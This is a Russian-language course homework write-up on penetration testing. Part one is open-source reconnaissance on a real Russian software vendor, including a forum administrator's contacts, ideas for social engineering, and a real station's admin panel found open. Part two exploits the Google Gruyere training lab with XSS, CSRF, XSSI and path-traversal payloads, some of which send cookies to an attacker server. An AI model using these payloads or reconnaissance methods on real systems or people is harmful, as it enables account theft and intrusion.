

# «Penetration Testing. Часть 1»

[Задание](https://github.com/netology-code/ibdef-homeworks/tree/master/06_pentest)


## Задание 1

Целью для поисков выбрал компанию-производителя, продуктами которой я пользуюсь каждый день, для работы.
Называются они "Автоматика плюс"

[Их сайт](http://www.automatikaplus.ru/default.aspx)

Решил найти IP адрес их сайта, ```nslookup www.automatikaplus.ru ```, получаю ```188.225.36.85```. В гугле нахожу информацию, что это хостинг из Санкт-Петербурга, значит сервер стоит не у них, а они пользуются хостингом (физически они находятся в Пензе).
С помощью shodan посмотрел, что сервер на Windows, там открыт 443 порт и лежит сертификат, который не доступен , если просто заходить на сайт, так же открыты RDP, VNC сервисы для управления этим сервером. 

На сайте есть ссылка на форум. Решил поискать администраторов форума. loginov_d - один из самых активных участников форума, просто гуглю его ник. Нахожу его [личный сайт](http://www.loginovprojects.ru/index.php?page=simple). Сайт хостится на том же IP, что и основной сайт автоматики. На его личном сайте есть комментарии, где с 2005 года с ним разговаривают его друзья и видимо одногруппники, студенты. Можно использовать их email, так как они в открытом виде там лежат и использовать социальную инженерию, направив её на администратора. 

<details>
  <summary>**Тут дополнительно, не очень применимо к самой автоматике**</summary>
  
Так как я работаю с их продуктом, знаю о уязвимости "из первых рук". Проблема в мисконфигурации, если не указать отдельно пароль администратора одного из сервисов, он доступен (неявно) из интернета. т.е. если люди не пользуются этим сервисом, либо не знают о нем и не указывают пароль по этим причинам - можно получить доступ ко ВСЕМ транзакциям с контрагентами. Решил проверить, есть ли где-то такой личный кабинет. 


Доступно 4 кабинета, у первого, если после адреса написать /azs/ (это доступ к веб сервису не для клиентов) нет пароля администратора. Проверять, есть ли там транзакции не стал, на всякий случай. 
IP принадлежит Братску. В Братске не так много заправок. 


У крупных брендовых заправок не может быть именно этого сервиса, остались "братский бензин" и "илим-роско". У первых есть этот сервис. Ребят предупредил, вдруг им интересно. 


</details>

В ходе проделанной работы я нашел мало данных, связанных с самой организацией, но думаю всю эту информацию можно использовать совместно с социальной инженерией, чтобы получить другую информацию, полезную для пентеста. 

## Задание 2

### XSS

Находится автоматически с помощью OWASP ZAP.

```
https://google-gruyere.appspot.com/632978317648096391885908153107952987817/deletesnippet?index=%3C%2Fdiv%3E%3CscrIpt%3Ealert%281%29%3B%3C%2FscRipt%3E%3Cdiv%3E
```

Немного изменяю ссылку, чтобы вместо 1, нам выводились на экран cookie:
```
https://google-gruyere.appspot.com/632978317648096391885908153107952987817/deletesnippet?index=%3C%2Fdiv%3E%3CscrIpt%3Ealert%28document.cookie%29%3B%3C%2FscRipt%3E%3Cdiv%3E
```
Результат:

Как реализовать эту атаку в реальной жизни: 
1) Немного изменяем ссылку, чтобы вместо алерта, сервер сам отправлял нам информацию (с помощью функции fetch)
```
https://google-gruyere.appspot.com/632978317648096391885908153107952987817/deletesnippet?index=%3C%2Fdiv%3E%3CscrIpt%3Efetch(%27http://10.10.58.248:9001?cookie=%27%2Bbtoa%28document.cookie%29%29%3B%3C%2FscRipt%3E%3Cdiv%3E
```
2) Отправляем ссылку атакуемому.
3) Запускаем на нашем сервере ``` nc -nlvp 9001 ```
4) Когда атакуемый перейдет по ссылке, мы получим файлы cookie.

Результат:


### XSRF

Находится автоматически с помощью OWASP ZAP.

Чтобы проэксплуатировать эту уязвимость, нужно заставить атакуемого перейти по ссылкам с другого сайта, из почты и т.д.

Продемонстрирую:

1) Создаём страницу:
```html
<h1>CSRF</h1>

<a href="https://google-gruyere.appspot.com/632978317648096391885908153107952987817/newsnippet2?snippet=I DONT WANT THIS SNIPPET">Click Me</a>

<a href="https://google-gruyere.appspot.com/632978317648096391885908153107952987817/deletesnippet?index=0">Delete Me</a>

```
2) Страница


3) Результат добавления текста



4) Результат удаления


### XSSI

В соответствии с [этой статьёй](https://book.hacktricks.xyz/pentesting-web/xssi-cross-site-script-inclusion), чтобы проэксплуатировать XSSI, нужно проанализировать .js скрипты на атакуемом сайте. На этом сайте все скрипты ссылаются на .../lib.js
Принцип атаки: мы берем другой сайт, ссылаемся в нем на скрипт атакуемого сайта. Следующей строчкой вызываем alert(<тут нужная нам переменная из атакуемого сайта>). Значит нужно проанализировать /lib.js. Я не смог найти в этом скрипте переменных с "небезопасными" значениями. 
Но воспользовался подсказкой и там указано, что существует скрипт feed.gtl. Который содержит "private snippet". 

1) Делаем страницу:

```html
<script>
function _feed(s) {
  alert(s['private_snippet']);
}
</script>
<script src="https://google-gruyere.appspot.com/632978317648096391885908153107952987817/feed.gtl" type="text/javascript"></script>
```

2)  Создаем пользователя atakuemiy. И задаём ему private snippet. 


3) Создаем пользователя attacker, Загружаем страницу из пункта 1. Располагаем её в профиле.
ВЫ
4) Логинимся от пользователя atakuemiy. Видим, что если атакуемый перейдет по ссылке в профиле атакующего, алерт выдаёт private snippet. Следовательно можно алерт заменить на fetch, как в первом пункте и отправить эту информацию куда угодно на сервер атакующего. 

 

5) Пример:

```html
<script>
function _feed(s) {
  fetch('http://10.10.58.248:9001?snippet='+btoa(s['private_snippet']));
}
</script>
<script src="https://google-gruyere.appspot.com/632978317648096391885908153107952987817/feed.gtl" type="text/javascript"></script>
```
6) Результат:


### Path Traversal

Эта атака пытается получить доступ к файлам и папкам, которые находятся вне папок, доступных "легально". На сервер можно загрузить файлы, которые потом доступны по адресу: .../username/file.ext

Я нашел [репозиторий](https://github.com/omurugur/Path_Travelsal_Payload_List/blob/master/Payload/Dp.txt) который содержит пэйлоад для этой атаки, с помощью фьюзера у owasp-zap нахожу, что часть из них работает, например этот:

```
https://google-gruyere.appspot.com/632978317648096391885908153107952987817/test4/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64
```


```
https://google-gruyere.appspot.com/632978317648096391885908153107952987817/test4//..%5C../..%5C../..%5C../..%5C../..%5C../..%5C../etc/shadow
```


### Code Execution
Самостоятельно я эту уязвимость найти не смог. Принцип такой, что мы можем либо создать пользователя  ```..``` и загрузить туда файл ```gtl.py```. Либо сразу загрузить файл ```../gtl.py```. Так как сайт подвержен DOS атакам, мы перезапускаем сервер и код из файла ```gtl.py``` выполнится.

Пример:
1) На сайте лежит файлы с расширением .py


2) Попробуем создать пользователя .. и загрузить на сервер измененный файл data.py


3) Перезагружаем сервер ```https://google-gruyere.appspot.com/632978317648096391885908153107952987817/quitserver```

4) Сервис нам сообщает, что сервер owned и восстанавливает .py файлы


